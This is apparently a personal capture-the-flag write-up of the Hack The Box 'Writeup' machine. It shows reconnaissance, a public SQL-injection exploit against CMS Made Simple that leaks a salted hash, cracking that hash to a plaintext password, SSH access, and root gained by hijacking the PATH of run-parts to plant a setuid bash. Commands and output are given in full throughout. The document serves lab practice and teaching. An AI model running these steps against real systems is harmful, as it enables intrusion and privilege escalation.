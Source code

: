 Only port 22 and 80 are open:
```
% nmap -p `cat logs/tcp-simple.nmap | grep open | cut -d/ -f1 | tr "\n" "," | sed "s/,$//"` -sC -sV -Pn -oA logs/nmap-tcpscripts $IP
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-31 17:17 AEST
Nmap scan report for 10.10.10.138
Host is up (0.010s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey:
|   2048 dd:53:10:70:0b:d0:47:0a:e2:7e:4a:b6:42:98:23:c7 (RSA)
|   256 37:2e:14:68:ae:b9:c2:34:2b:6e:d9:92:bc:bf:bd:28 (ECDSA)
|_  256 93:ea:a8:40:42:c1:a8:33:85:b3:56:00:62:1c:a0:ab (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-robots.txt: 1 disallowed entry
|_/writeup/
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Nothing here yet.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.48 seconds

```

We get a username and the hostname thanks to the email address:
[Pasted image 20210731171508.png](Pasted image 20210731171508.png)

```
jkr@writeup.htb
```

We set /etc/hosts in case the virtual hosts are setup. Webpage doesnt change.

We find stuff in robots.txt
![[Pasted image 20210731171725.png]]

By curling the page we can see what software the application is using due to comments:
![[Pasted image 20210731172329.png]]

Found an exploit which works:
```
% searchsploit cms made simple SQL
[...]
CMS Made Simple < 2.2.10 - SQL Injection | php/webapps/46635.py
```

Running it returns a salt username and password:
```
% python 46635.py -u http://10.10.10.138/writeup/

[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: 62def4866937f08cc13bab43bb14e6f7

```

Based on the  exploit we get how the hash is generated:
```
% cat 46635.py | grep md5
        if hashlib.md5(str(salt) + line).hexdigest() == password:
```

Using https://hashcat.net/wiki/doku.php?id=example_hashes we can find the hashcat mode to crack this, aka mode 20.

Running hashcat:
```
# hash.txt:
# 62def4866937f08cc13bab43bb14e6f7:5a599ef579066807

% hashcat -m 20 --force hash.txt /usr/share/wordlists/rockyou.txt                  ~/oscp/notes/htb/writeup/exploits
hashcat (v5.1.0) starting...

[...]

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

62def4866937f08cc13bab43bb14e6f7:5a599ef579066807:raykayjay9

Session..........: hashcat
Status...........: Cracked
Hash.Type........: md5($salt.$pass)
Hash.Target......: 62def4866937f08cc13bab43bb14e6f7:5a599ef579066807
Time.Started.....: Sat Jul 31 17:39:19 2021 (2 secs)
Time.Estimated...: Sat Jul 31 17:39:21 2021 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1906.8 kH/s (0.50ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 4362240/14344385 (30.41%)
Rejected.........: 0/4362240 (0.00%)
Restore.Point....: 4359168/14344385 (30.39%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: raymie0506 -> ray061

Started: Sat Jul 31 17:39:07 2021
Stopped: Sat Jul 31 17:39:23 2021
```

We now have a username and password which we can use to login to ssh:
```
% ssh jkr@$IP
The authenticity of host '10.10.10.138 (10.10.10.138)' can't be established.
ECDSA key fingerprint is SHA256:TEw8ogmentaVUz08dLoHLKmD7USL1uIqidsdoX77oy0.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.138' (ECDSA) to the list of known hosts.
jkr@10.10.10.138's password:
Linux writeup 4.9.0-8-amd64 x86_64 GNU/Linux

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
/usr/bin/xauth:  file /home/jkr/.Xauthority does not exist
jkr@writeup:~$ hostname && ip a && whoami && cat user.txt
writeup
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 00:50:56:b9:2e:5b brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.138/24 brd 10.10.10.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::250:56ff:feb9:2e5b/64 scope link
       valid_lft forever preferred_lft forever
jkr
d4e493fd4068afc9eb1aa6a55319f978
```

Ran linpeas and exploit suggester however nothing much was returned. No valid passwords found. Found a hash in `/etc/apache2/passwords` however couldn't crack it.

The path is weird and has `/usr/local/bin` at the start which suggests that we need to abuse the path hijacking:
```
% echo $PATH
/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games

```

Running pspy we can see that the application runs a command on ssh login:
_Note: If you have an ssh client config which allows session reuse, then you probably will have to wait for someone else to connect to the box to be able to see it._
```
2021/07/31 05:05:48 CMD: UID=1000 PID=6145   | -bash
2021/07/31 05:05:51 CMD: UID=0    PID=6146   | sshd: [accepted]
2021/07/31 05:05:51 CMD: UID=102  PID=6147   | sshd: [net]
2021/07/31 05:05:56 CMD: UID=0    PID=6148   | sshd: jkr [priv]
2021/07/31 05:05:56 CMD: UID=0    PID=6149   | sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new
2021/07/31 05:05:56 CMD: UID=0    PID=6150   | run-parts --lsbsysinit /etc/update-motd.d
2021/07/31 05:05:56 CMD: UID=0    PID=6151   | /bin/sh /etc/update-motd.d/10-uname
2021/07/31 05:05:56 CMD: UID=0    PID=6152   | sshd: jkr [priv]
2021/07/31 05:05:56 CMD: UID=1000 PID=6153   | -bash
2021/07/31 05:05:56 CMD: UID=1000 PID=6154   | -bash
2021/07/31 05:05:56 CMD: UID=1000 PID=6155   | -bash
2021/07/31 05:05:56 CMD: UID=1000 PID=6156   | -bash
2021/07/31 05:05:56 CMD: UID=1000 PID=6157   | -bash
2021/07/31 05:06:00 CMD: UID=1000 PID=6158   | -bash
2021/07/31 05:06:01 CMD: UID=0    PID=6159   | /usr/sbin/CRON
2021/07/31 05:06:01 CMD: UID=0    PID=6160   | /usr/sbin/CRON
2021/07/31 05:06:01 CMD: UID=0    PID=6161   | /bin/sh -c /root/bin/cleanup.pl >/dev/null 2>&1
```

The following command is vulnerable due to setting the path to a location we can write to and then running a comand without an absolute path. Hence, we can perform path hijacking:
```
% sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new
```

We have write access to `/usr/local/sbin` since we're part of the staff group:
```
jkr@writeup:~$ id
uid=1000(jkr) gid=1000(jkr) groups=1000(jkr),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),50(staff),103(netdev)
jkr@writeup:~$ ls -dal /usr/local/bin
drwx-wsr-x 2 root staff 20480 Jul 31 05:04 /usr/local/bin

```

Now we can write our exploit to hijack the `run-parts` command.

We write our exploit shellscript which will copy `/bin/bash` to `/tmp` and setuid on it:
```
jkr@writeup:~$ echo '#!/bin/bash' > asdf.sh
jkr@writeup:~$ echo 'cp /bin/bash /tmp/bash;chmod +s /tmp/bash' >> asdf.sh
jkr@writeup:~$ chmod +x asdf.sh
jkr@writeup:~$ cp asdf.sh /usr/local/sbin/run-parts
```
	
We just need to login again to trigger the exploit:
```
% ssh jkr@$IP
jkr@10.10.10.138's password:

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat Jul 31 05:09:56 2021 from 10.10.14.23
jkr@writeup:~$ ls
asdf.sh  CRON  user.txt
jkr@writeup:~$ ls /tmp/
bash  enum  lol.txt  ssh-bswiDlYM8A  ssh-ft19Qjjwpg  vmware-root  vmware-root_1453-3980363984
jkr@writeup:~$ /tmp/bash -p
bash-4.4# whoami && ip a && hostname && cat /root/
.bash_history  .bashrc        bin/           .nano/         .profile       root.txt
bash-4.4# whoami && ip a && hostname && cat /root/root.txt
root
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 00:50:56:b9:2e:5b brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.138/24 brd 10.10.10.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::250:56ff:feb9:2e5b/64 scope link
       valid_lft forever preferred_lft forever
writeup
eeba47f60b48ef92b734f9b6198d7226
```
